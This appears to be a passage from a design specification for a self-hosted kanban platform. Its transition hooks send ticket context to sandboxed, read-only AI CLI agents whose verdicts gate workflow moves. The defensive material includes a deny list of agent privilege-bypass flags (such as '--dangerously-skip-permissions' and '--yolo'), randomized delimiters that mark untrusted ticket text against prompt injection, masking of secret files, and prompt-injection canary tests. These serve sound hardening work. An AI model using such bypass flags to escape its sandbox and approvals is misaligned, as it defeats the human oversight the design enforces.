4. `TYPE_MATRIX_VIOLATION` (disallowed `(source_type, link_type, target_type)` tuple, e.g., `user -> IN_CYCLE -> doc`)
5. `CROSS_WORKSPACE_LEAK` (`source.workspace_id <> target.workspace_id` without federation grant)
6. `PERMISSION_SEVERED` (ACL/project change permanently revoked endpoint visibility across the link boundary)

Detected rows transition `object_links.link_state -> 'FLAGGED_INVALID'` (`🕸️⚠️` badge) and insert a forensic record into `invalid_object_link_audits` capturing full snapshots before `purge_invalid_object_links(p_audit_ids UUID[], p_actor_id UUID, p_reason TEXT)` deletes the invalid `object_links` rows and writes an immutable `INVALID_OBJECT_LINK_PURGED` event to `activity_records`.

---

## 13. Admin-Only Custom Scripted Fields & Tiered Privilege Escalation (`#14`)

### 13.1 Admin-Only Definition Gate & Typed `output_format_metadata`

Standard users (`MEMBER`, `VIEWER`, `GUEST`) are **strictly prohibited** at RBAC, API, MCP, and PostgreSQL `WITH CHECK` RLS layers from creating or editing custom fields or scripts. Only `PROJECT_ADMIN` / `SERVER_ADMIN` can manage `custom_field_definitions`, which require a validated `output_format_metadata` JSON Schema (`text`, `number`, `badge`, `markdown_snippet`, `url`, `json_table`, `severity_pill` - never raw HTML).

---

### 13.2 Cryptographic Two-Dimension Privilege Escalation Matrix (`Scope x Principal`)

Every scripted field defaults to **zero-privilege (`PROJECT` scope + `INVOKING_USER` OBO credentials)** and requires explicit `AAL2` cryptographic approval (`manifest_sha256 = SHA256(script_source || output_format_metadata || target_scope || credential_mode || egress_allowlist)`) from an Admin of the **target tier** to escalate:

| Requested Token Scope | Credential Principal Mode | Required Cryptographic Approver (`AAL2` WebAuthn/TOTP) | Cache Partitioning Invariant |
| :--- | :--- | :--- | :--- |
| **`PROJECT`** *(Default)* | `INVOKING_USER` *(Default)* | `PROJECT_ADMIN` (of that Project) | Keyed by `(issue_id, field_id, script_ver, user_access_hash)` - **never shared across users with different ACLs!** |
| **`PROJECT`** | `PROJECT_ADMIN_SP` | `PROJECT_ADMIN` + explicit warning banner | Keyed by `(issue_id, field_id, script_ver)` |
| **`WORKSPACE`** | `INVOKING_USER` or `PROJECT_ADMIN_SP` | **`WORKSPACE_ADMIN`** approval required | Scoped to `INVOKING_USER` or `PROJECT_ADMIN_SP` |
| **`SERVER`** | `INVOKING_USER` or `SERVER_ADMIN_SP` | **`SERVER_ADMIN`** dual-control approval | Full audit entry on every invocation |

*Tamper Auto-Revocation:* Editing a single byte of `script_source` or `output_format_metadata` changes `manifest_sha256`, **immediately invalidating** any elevated Workspace/Server/Admin approval until re-signed.

---

### 13.3 Dual-Tier Sandbox (`Wasmtime` + `nsjail`) & Out-of-Sandbox Token-Injecting Proxy

1. **Tier A (`Wasmtime`, Default):** Deterministic fuel-metered WebAssembly (`<= 50M` instructions, `<= 32 MiB` linear memory, `<= 500ms` wall clock, zero host FS/env). Covers `95%` of echo/computed/API drill-down fields at `< 2ms` cold start.
2. **Tier B (`nsjail` + `gVisor`):** Unprivileged Linux namespaces + `seccomp-BPF` (`<= 128 MiB` cgroup v2 RAM, `<= 3,000ms` timeout, read-only tmpfs root, **zero internet route**).
3. **Zero Raw Token Inside Sandbox:** Ephemeral tokens (`TTL <= 15s`, `max_requests <= 10`) are **never passed into sandbox env/memory**; an **Out-of-Sandbox Egress Proxy** on a Unix socket injects the `Authorization` header only onto allowlisted internal `/api/v1/...` GET routes (`X-Kanban-Script-Depth: 1` blocks recursive loops).

---

## 14. ScriptRunner Workflows & Remote/CLI Agent Transition Interceptors (`agy -p`, `codex -p`, Gemini, Ollama)

### 14.1 How ScriptRunner + Agent Transition Interceptors Fit into `[kanban, database, mcp, agent]`

Inspired by Jira ScriptRunner - hardened for autonomous agents - any workflow transition `(from_state -> to_state)` (or `* -> Done`) can attach an ordered pipeline of **Synchronous Deterministic Scripts** (`sync_validator`, `sync_mutator`) followed by **Asynchronous AI/CLI Agent Interceptors** (`agent_interceptor`) defined in `agent/`:

```mermaid
sequenceDiagram
    autonumber
    actor User as Human / MCP Caller
    participant API as kanban/ Workflow Engine
    participant Wasm as Tier A Wasmtime (<25ms)
    participant Agent as agent/ (Gemini | Ollama | agy -p | codex -p)
    participant Repo as :ro Git Mirror / Remote WSS Runner
    participant MCP as /mcp/agent + /mcp/docs (kb_agt_eph_*)

    User->>API: Move KAN-142 (In Progress -> Done)
    API->>Wasm: Run sync_validators & sync_mutators
    alt Sync Validator Rejects
        Wasm-->>API: REJECT ("Missing Verification Proof section")
        API-->>User: 422 Unprocessable (instant inline card/drawer toast)
    else Sync Validators Pass + Async Agent Gate Attached
        API-->>User: 202 Accepted (Card enters provisional ⏳🤖 state; UI stays interactive)
        API->>Agent: Pipe spotlighted kb-transition-context/v1 YAML via stdin / SDK
        Agent->>Repo: Inspect code/tests strictly READ-ONLY (repo_read_file / repo_grep / :ro VFS)
        Agent->>MCP: Query related tickets & specs (search_tickets, read_ticket, read_doc)
        Agent-->>API: Return schema-validated TransitionVerdict JSON
        alt Verdict == APPROVE (with optional bounded field_updates)
            API->>API: Verify issue_body_sha256_snapshot (zero TOCTOU) + Commit to Done + ✅🤖 audit
        else Verdict == REJECT
            API->>API: Clear pending hold (snap back to In Progress) + Post 🛑🤖 Markdown review comment
        end
    end
```

---

### 14.2 Unified `agent_definitions` & Workflow Transition Hook DDL (`database/`)

Every agent in `agent/` is registered in `agent_definitions` and supports **three execution harnesses** under one uniform contract:
1. **`in_app_sdk`**: Native in-process `GeminiProvider`, `OllamaProvider`, or `OpenAIProvider` tool-calling loop with 5 read-only repo tools (`repo_tree`, `repo_read_file`, `repo_grep`, `repo_git_log`, `repo_git_diff`) + in-process MCP ticket/doc tools.
2. **`cli_pipe`**: Local sandboxed CLI harness (`agy -p`, `codex -p -s read-only`, `claude -p`, `gemini -p`) receiving `${context}` YAML over `FD 0 (stdin)` inside a `:ro`-mounted `nsjail` workspace.
3. **`remote_runner`**: Remote `kanban-agent-runner` daemon connected outbound over mTLS TLS 1.3 `WSS` (e.g., an air-gapped GPU `ollama` box or CI server with local `:ro` source checkouts).

```sql
CREATE TABLE agent_definitions (
    id                      UUID PRIMARY KEY DEFAULT uuidv7(),
    workspace_id            UUID NOT NULL REFERENCES workspaces(id) ON DELETE CASCADE,
    project_id              UUID REFERENCES projects(id) ON DELETE CASCADE,
    principal_id            UUID NOT NULL REFERENCES principals(id) ON DELETE RESTRICT,
    slug                    TEXT NOT NULL CHECK (slug ~ '^[a-z0-9][a-z0-9-]{1,62}$'),
    display_name            TEXT NOT NULL,
    harness_kind            TEXT NOT NULL CHECK (harness_kind IN ('in_app_sdk', 'cli_pipe', 'remote_runner')),
    provider_kind           TEXT CHECK (provider_kind IN ('openai', 'ollama', 'gemini', 'fixture')),
    model_id                TEXT,
    cli_binary_allowlist_id TEXT CHECK (cli_binary_allowlist_id IN ('agy', 'codex', 'gemini-cli', 'claude-code')),
    cli_args_json           JSONB NOT NULL DEFAULT '[]'::jsonb, -- Validated argv array; NEVER sh -c
    remote_runner_pool_slug TEXT,
    repo_access_mode        TEXT NOT NULL DEFAULT 'none' CHECK (repo_access_mode IN ('none', 'bare_git_tools', 'ro_vfs_mount')),
    mcp_allowed_tools       TEXT[] NOT NULL DEFAULT ARRAY['search_tickets','read_ticket','search_knowledge','read_doc'],
    system_instructions_md  TEXT NOT NULL DEFAULT '',
    timeout_ms              INTEGER NOT NULL DEFAULT 60000 CHECK (timeout_ms BETWEEN 1000 AND 300000),
    UNIQUE (workspace_id, slug)
);

CREATE TABLE workflow_transition_hooks (
    id                      UUID PRIMARY KEY DEFAULT uuidv7(),
    workspace_id            UUID NOT NULL REFERENCES workspaces(id) ON DELETE CASCADE,
    project_id              UUID NOT NULL REFERENCES projects(id) ON DELETE CASCADE,
    name                    TEXT NOT NULL,
    from_state_id           UUID REFERENCES workflow_states(id) ON DELETE CASCADE, -- NULL = wildcard '*'
    to_state_id             UUID NOT NULL REFERENCES workflow_states(id) ON DELETE CASCADE,
    hook_kind               TEXT NOT NULL CHECK (hook_kind IN ('sync_validator', 'sync_mutator', 'agent_interceptor')),
    sort_rank               TEXT COLLATE "C" NOT NULL,
    is_enabled              BOOLEAN NOT NULL DEFAULT TRUE,
    wasm_module_sha256      BYTEA,
    agent_definition_id     UUID REFERENCES agent_definitions(id) ON DELETE RESTRICT,
    allowed_mutable_fields  TEXT[] NOT NULL DEFAULT '{}', -- Whitelist of fields this hook may auto-update
    failure_policy          TEXT NOT NULL DEFAULT 'fail_closed' CHECK (failure_policy IN ('fail_closed', 'fail_open_warn')),
    manifest_sha256         BYTEA NOT NULL
);

CREATE TABLE workflow_transition_executions (
    id                          UUID PRIMARY KEY DEFAULT uuidv7(),
    workspace_id                UUID NOT NULL,
    project_id                  UUID NOT NULL,
    issue_id                    UUID NOT NULL REFERENCES issues(id) ON DELETE CASCADE,
    invoking_principal_id       UUID NOT NULL REFERENCES principals(id),
    from_state_id               UUID NOT NULL REFERENCES workflow_states(id),
    to_state_id                 UUID NOT NULL REFERENCES workflow_states(id),
    status                      TEXT NOT NULL CHECK (status IN ('running_sync','pending_async','approved','rejected','cancelled','timed_out')),
    hop_depth                   SMALLINT NOT NULL DEFAULT 0 CHECK (hop_depth <= 3), -- Infinite-loop breaker
    issue_body_sha256_snapshot  BYTEA NOT NULL,                                     -- Zero-TOCTOU content hash
    verdict_json                JSONB,
    created_at                  TIMESTAMPTZ NOT NULL DEFAULT clock_timestamp(),
    completed_at                TIMESTAMPTZ
);
```

---

### 14.3 Zero-Shell CLI Execution (`${context} | agy -p` / `codex -p`) & Strict `:ro` Repo Confinement

Conceptual `${context} | agy -p` or `${context} | codex -p` pipelines are executed with **zero shell interpolation** (`agent/runners/cli_pipe.py`):

1. **Direct `execve` + Banned Unsandboxed Flags:** Never invokes `/bin/sh -c`. Spawns an explicit `argv` tuple against Admin-allowlisted root-owned binaries (`/usr/local/bin/agy`, `/usr/local/bin/codex`) and **rejects at save & runtime** any privilege-bypass flag (`--yolo`, `--dangerously-bypass-approvals-and-sandbox`, `--dangerously-skip-permissions`, `--full-auto`, `--allow-all-tools`). `codex` is pinned to `["/usr/local/bin/codex", "-p", "-s", "read-only", ...]`.
2. **Spotlighted `kb-transition-context/v1` YAML over `FD 0 (stdin)`:** Untrusted ticket prose is never interpolated into `argv` or raw prompt instructions; it is streamed over `stdin` inside randomized cryptographic boundary markers (`<<<UNTRUSTED_TICKET_DATA_9f8a...>>>`) alongside ephemeral MCP credentials:

```yaml
schema: kb-transition-context/v1
execution_id: "0196ed40-7b2a-7000-8000-112233445566"
transition: { project: KAN, issue: KAN-142, from_state: In Review, to_state: Done, actor: "@adam" }
repo_context: { mount_path: /workspace/repo, access: read-only, head_commit: 94a1f02c8e }
mcp_access:
  agent_url: https://kanban.internal/mcp/agent
  docs_url: https://kanban.internal/mcp/docs
  ephemeral_bearer_env: KANBAN_EPHEMERAL_MCP_TOKEN # Scoped strictly to Invoker ∩ Agent ∩ Project (READ-ONLY)
ticket_snapshot:
  delimiter: "<<<UNTRUSTED_TICKET_DATA_9f8a7c12>>>"
  summary: "Harden Multi-Card OIDC & LDAPS Auth Studio"
  priority: Urgent
  labels: [security, auth]
  description_markdown: |
    <<<UNTRUSTED_TICKET_DATA_9f8a7c12>>>
    Enforce PKCE S256 and StartTLS bind verification...
    <<<UNTRUSTED_TICKET_DATA_9f8a7c12>>>
```

3. **Four-Layer Read-Only Repository Guarantee:**
   - **Kernel VFS:** `nsjail` bind-mounts the repo snapshot at `/workspace/repo` with `MS_BIND | MS_REC | MS_RDONLY | MS_NODEV | MS_NOSUID | MS_NOEXEC` before `pivot_root` (`EROFS` on any write syscall).
   - **Secret & Git-Hook Whiteout Masks:** Empty `0000` tmpfs whiteouts automatically mask `.env*`, `*.pem`, `*.key`, `.git/config`, and `.git/hooks` inside `/workspace/repo`.
   - **Scoped Ephemeral MCP Token (`kb_agt_eph_*`):** Bound to `(execution_id, Invoker ∩ Agent ∩ Project)` (`TTL <= 120s`, `max_calls <= 25`), exposing **only** read-only ticket & doc lookup tools (`search_tickets`, `read_ticket`, `search_knowledge`, `read_doc`) so the agent can pull related tickets and architecture specs without recursive write power.
   - **Schema-Validated `kb-transition-verdict/v1` Output & Zero-TOCTOU Commit:** The runner parses `stdout` against `TransitionVerdict` (`decision: "approve" | "reject"`, `reason_markdown`, `field_updates` validated against `hook.allowed_mutable_fields`, `add_labels`, `add_links`). Before committing `to_state_id`, PostgreSQL verifies `issues.description_sha256 == issue_body_sha256_snapshot` (aborting stale approvals if someone edited the ticket mid-flight) and enforces `hop_depth <= 3`.

---

### 14.4 Admin Workflow Transition Studio UI (`kanban/web`)

```text
+---------------------------------------------------------------------------------------------------+
|  ⚙️ Project KAN > Workflow & Transition Interceptors                     [+ Add Transition Rule]  |
+---------------------------------------------------------------------------------------------------+
|  Transition:  [ 🟣 In Review ]  ========( 3 Active Hooks )========>  [ 🟢 Done ]                  |
|                                                                                                   |
|  1. ⚡ [Sync Wasm Validator]  require-qa-proof-link                           <2ms | Fail-Closed  |
|     Ensures description or comments include `docs/qa/KAN-*/` proof bundle before invoking AI.     |
|                                                                                                   |
|  2. 🤖 [CLI Agent Gate]       forensic-code-check (`${context} | agy -p`)    60s  | Fail-Closed   |
|     Repo: `kanban-main` (:ro mount) | MCP: Read-Only (`KAN`) | Mutable Fields: `[labels]`         |
|                                                                                                   |
|  3. 🤖 [Local Ollama Gate]    sec-invariant-scan (`ollama/qwen2.5-coder`)    30s  | Fail-Closed   |
|     Verifies RLS policy tests & zero new unapproved dependencies in `uv.lock` / `pnpm-lock.yaml`. |
|                                                                [▶ Dry-Run Against Sample Ticket]  |
+---------------------------------------------------------------------------------------------------+
```

---

## 15. `>=95%` Clean-DB Testing, Pluggable AI Fixtures, Local Agent CLI & Governance Gates

### 15.1 Mandatory `>= 95%` Unit Coverage & Sub-10-Second Clean-Database Architecture

Testing is a first-class architectural pillar: **every module (`database`, `kanban`, `mcp`, `agent`, `kanban/web`) enforces `>= 95%` automated unit test line & branch coverage**, executing **1,000+ tests in `< 10 seconds` with a 100% clean PostgreSQL 16 database state on every single test**:

1. **Why Real PostgreSQL 16 (Never SQLite Mocks) in Tests:** Testing against SQLite would skip `FORCE ROW LEVEL SECURITY`, `ltree`, `COLLATE "C"`, `pgvector`, and PL/pgSQL triggers (`LOCKOUT_PREVENTED`, `audit_object_links()`). Instead, `docker-compose.test.yml` (or the embedded PG binary) runs Postgres on RAM-backed `tmpfs` (`fsync=off`, `synchronous_commit=off`, `full_page_writes=off`).
2. **Golden `kanban_template` DB + `pytest-xdist` Worker Clones (`~35ms` once per worker):** At session start, `conftest.py` runs `alembic upgrade head` **once** on `kanban_template`. Each `pytest-xdist` worker (`gw0..gwN`) clones `CREATE DATABASE kanban_test_gw0 TEMPLATE kanban_template` in `~35ms`.
3. **Per-Test Nested `SAVEPOINT` Rollback & Pre-RLS Bootstrap (`~0.3ms` Clean DB Guarantee):**
   - Each test opens an outer connection transaction, binds SQLAlchemy `AsyncSession(..., join_transaction_mode="create_savepoint")` so application `await session.commit()` calls release nested `SAVEPOINT`s while still firing `DEFERRABLE INITIALLY IMMEDIATE` constraint triggers and `FORCE RLS` policies, and issues an outer `ROLLBACK` on teardown in **`0.3ms`**!
   - **Pre-RLS Fixture Bootstrap Invariant (`KANBA-162`):** Initial workspace and admin bootstrap fixtures MUST execute under `kanban_migrator`/superuser authority and immediately reset session authorization to `kanban_app` (`FORCE ROW LEVEL SECURITY` active) prior to running test assertions; non-tenant `SECURITY DEFINER`-isolated auth tables (`oidc_auth_requests`, `auth_provider_cards`, `local_admin_credentials`, `sessions`) are verified for zero direct `kanban_app` table privileges (`has_table_privilege = false`). Non-top-level `conftest.py` files MUST NOT declare `pytest_plugins` (Pytest 9.2+ invariant).
   - For multi-connection concurrency / `LISTEN-NOTIFY` tests (`@pytest.mark.committed_db`), a companion fixture runs `TRUNCATE ... RESTART IDENTITY CASCADE` across dirty tables in `< 8ms`.
4. **Coverage Enforcement Commands (Hard CI Failure Below `95%`):**
   - **Python (`[database, kanban, mcp, agent]`):** `uv run pytest -n auto --cov=database --cov=kanban --cov=mcp --cov=agent --cov-branch --cov-report=term-missing --cov-fail-under=95`
   - **Frontend (`kanban/web`):** `pnpm --dir kanban/web test:unit --coverage` (`vitest` `thresholds: { lines: 95, functions: 95, branches: 95, statements: 95 }`)

---

### 15.2 Pluggable Deterministic AI Fixtures (`FixtureLLMProvider` & `FixtureCLIRunner`)

All unit and integration tests run with `pytest-socket` blocking external network access (`--disable-socket --allow-unix-socket`). AI agents plug cleanly into deterministic YAML cassettes (`tests/fixtures/ai/<scenario>.yaml`) via `FixtureLLMProvider` and `FixtureCLIRunner` (`agent/testing/fixtures.py`):

```yaml
# tests/fixtures/ai/transition_rls_veto.yaml
cassette_version: 1
matcher:
  agent_slug: forensic-code-check
  transition_to: Done
  prompt_contains: ["KAN-142", "auth_provider_cards"]
tool_script:
  - call: { tool: read_ticket, args: { identifier: "KAN-100" } }
  - call: { tool: repo_grep, args: { pattern: "FORCE ROW LEVEL SECURITY", path: "database/" } }
simulated_ttft_ms: 18
final_verdict:
  schema: kb-transition-verdict/v1
  decision: reject
  reason_markdown: "Missing `FORCE ROW LEVEL SECURITY` on `auth_card_group_mappings` migration."
  field_updates: {}
  add_labels: ["qa-needs-work"]
```

- **Multi-Turn Tool & Stream Replay:** Replays exact token-by-token SSE chunks (for `<150ms` `✨` Sparkle tests), multi-step MCP/repo tool calls, and simulated `agy -p` / `codex -p` `stdout`/`stderr`/exit-code streams.
- **Chaos & Fault Injection Modes:** Built-in fault fixtures test `HTTP 429` rate-limit backoff, TTFT SLA timeout (`>150ms` Sparkle abort), circuit-breaker trip (`CLOSED -> OPEN`), malformed non-JSON CLI `stdout`, and prompt-injection canary strings (asserting the outbound secret scrubber and read-taint guard block exfiltration).

---

### 15.3 Local Manual CLI Agent Validation Workbench (`uv run kanban-agent validate-*`)

Every AI agent and workflow interceptor can be invoked, inspected, and tuned **manually and locally from the terminal** with explicit input parameters - against **either** live local/cloud providers (`ollama`, `gemini`, `openai`, local `agy -p`, `codex -p`) **or** deterministic YAML cassettes (`--provider fixture`) - without clicking through the browser UI:

```bash
# 1. Manually validate a Transition Interceptor (`agy -p`, `codex -p`, `ollama`, or `gemini`) against a local repo & sample ticket:
uv run kanban-agent validate-transition \
  --agent-config ./examples/agents/agy-gate.yaml \
  --ticket-file  ./examples/tickets/kan-142.yaml \
  --repo-path    /home/adamoutler/kanban \
  --from-state   "In Review" \
  --to-state     "Done" \
  --print-stdin-context \
  --verbose-tools

# 2. Manually validate Blinking Sparkle (`✨`) FIM latency, RLS filtering & ghost-text output at a cursor offset (`|`):
uv run kanban-agent validate-sparkle \
  --provider ollama --model qwen2.5-coder:7b \
  --input-markdown "Enforce PKCE S256 on OAuth2 cards and verify | before LDAP bind." \
  --project KAN --as-user "@adam"

# 3. Manually validate Sticky -> Doc promotion structuring & ACL preservation preview:
uv run kanban-agent validate-sticky-promo \
  --provider gemini --model gemini-2.5-flash \
  --sticky-file ./examples/stickies/rough-auth-notes.md

# 4. Run local reality-checker forensic QA audit on a ticket proof packet:
uv run kanban-agent validate-qa-packet \
  --ticket-file ./examples/tickets/kan-142.yaml \
  --proof-dir   ./docs/qa/KAN-142/
```

Each `validate-*` command outputs: (1) exact rendered `${context}` YAML / prompt after secret scrubbing, (2) trace of every `:ro` repo and MCP tool call, (3) TTFT + total wall-clock latency + token count, and (4) schema validation status of the returned verdict/completion (`EXIT 0` valid, `EXIT 2` schema/policy violation).

---

### 15.4 Mandatory Governance Gates, `Apache-2.0` CI Check & Dash Verification

Every ticket executed on this repository enforces five non-bypassable gates:

1. **`Apache-2.0` License & Dependency Gate:** CI verifies `LICENSE` (`Apache-2.0`) and runs `pip-licenses` + `license-checker` across `uv.lock` and `pnpm-lock.yaml`, failing the build immediately on any `GPL`, `AGPL`, `LGPL` (statically linked), or `SSPL` dependency. Plus, introducing **any** new dependency requires documented evaluation from `>= 1` architect agent and multiple engineer sub-agents.
2. **`>= 95%` Coverage & Zero-Warning Gate:** `pytest --cov-fail-under=95`, `vitest` (`95%`), `ruff --strict`, `mypy --strict`, `tsc --noEmit`, and `import-linter` must pass with **zero** warnings.
3. **UI Specialist Gate (`docs/qa/<TICKET_ID>/ui-specialist-review.md`):** Required for all UI/editor/whitespace/emoji/media changes via `.agents/agents/ui-designer.md` or `.agents/agents/ux-architect.md` + annotated Desktop/Tablet/Mobile Playwright screenshots (`docs/qa/<TICKET_ID>/screenshots/`).
4. **API + UI Dual Specialist Gate (`api-specialist-review.md` + `ui-specialist-review.md`):** Required for all REST, WebSocket, workflow-hook, custom script, or MCP changes.
5. **Local `reality-checker` Forensic QA Gate + Dash CI/CD (`https://dash.hackedyour.info/llms.txt`):** Passive forensic audit via `.agents/agents/reality-checker.md` certifying `Grade-A READY`, paired with verified green remote pipeline status via Dash (`status` / `wait` / `logs`).

---

### 15.5 Phased Implementation Roadmap (Post-Sign-Off)

1. **Phase 0 - Monorepo Skeleton, `Apache-2.0` CI, Standalone `docker run` & Clean-DB `95%` Harness:** Root `LICENSE`, `[database, kanban, mcp, agent]` workspace, `Dockerfile` (`runtime-slim` + `standalone` Unix-socket PG16), `Caddyfile`, `tmpfs` `SAVEPOINT` test harness, `FixtureLLMProvider`, and Dash CI pipeline.
2. **Phase 1 - Universal Object Graph, Canonical Markdown DDL, `FORCE RLS` & Link Auditor (`database/`):** All 9 object classes (`*_markdown` + `STORED` `sha256` + `tsvector`), `principals`, `effective_resource_access`, `activity_records` hash chain, and `audit_object_links()` / `purge_invalid_object_links()`.
3. **Phase 2 - Multi-Card Auth Studio & Sanitization/Media Shield (`kanban/`):** Envelope-encrypted `OIDC`/`OAuth2`/`LDAPS`/`Local Admin` cards, `LOCKOUT_PREVENTED`, Rust `nh3` + hidden-DOM pruner, SVG scrubber, and `/api/v1/media-proxy`.
4. **Phase 3 - Breathable Whitespace UI, `<EmojiHint>`, Enterprise Board/Ticket & Safe Mermaid/Pictures/SVG (`kanban/web`):** Spatial tokens, 21-emoji `<EmojiHint>` system, 5 board views, `960px` Drawer + Full Screen (`8a`-`8q`), `beautiful-mermaid` Worker, `<MediaViewport>`, and `Docs` + `Stickies` (`💡📄`).
5. **Phase 4 - Three-Surface Intent MCP Server (`mcp/`):** `/mcp/agent` (8 tools), `/mcp/docs` (6 tools), `/mcp/admin` (12 tools + 2-stage `destructive_lifecycle`), OAuth 2.1 + PKCE, `EntityResolver`, and `InlineSafeDumper` YAML.
6. **Phase 5 - Multi-Provider AI, `<150ms` `✨` Sparkle, Custom Scripted Fields & ScriptRunner/CLI Transition Interceptors (`agent/` + `kanban/`):** `OpenAI`/`Ollama`/`Gemini` adapters, Sparkle right-click engine, Tier A `Wasmtime` + Tier B `nsjail`, `${context} | agy -p` / `codex -p` & remote `WSS` workflow gates, and `kanban-agent validate-*` local CLI testbench.
7. **Phase 6 - Cutover Import from `https://kanban.hackedyour.info/kanban/`:** Lossless `KANBA-*` migration, Link Auditor zero-invalid check, and full self-hosted dogfooding.
